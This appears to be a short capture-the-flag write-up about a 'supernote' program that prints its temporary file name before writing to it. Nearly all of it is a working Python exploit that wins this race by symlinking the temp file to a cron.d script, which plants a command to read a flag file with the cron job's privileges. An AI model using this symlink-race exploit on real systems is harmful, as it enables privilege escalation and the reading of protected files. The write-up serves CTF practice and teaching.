 The tempfile is outputted way before it is written, giving us enough time to add a symlink, which the problem will write to :3.

```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import os, sys, time
from subprocess import Popen, PIPE

DATA = "cat /home/supernote/flag.txt | write james pts/0"

while True:
    p = Popen(["/home/supernote/supernote"], stdin=PIPE, stderr=PIPE, stdout=PIPE, shell=True)
    p.stdin.write("ech@ech.ech\n")
    p.stdin.write("james\n")
    p.stdin.write(DATA+"\n")
    s = p.stderr.readline()
    fname = s[len("Temporary file is "):]
    fname = fname.strip()

    cron_name = "/home/supernote/cron.d/test.sh"

    for i in range(2048):
        try:
            os.symlink(cron_name, fname)
        except:
            pass
    print(p.communicate())

    sys.stdout.write(".")
    sys.stdout.flush()
```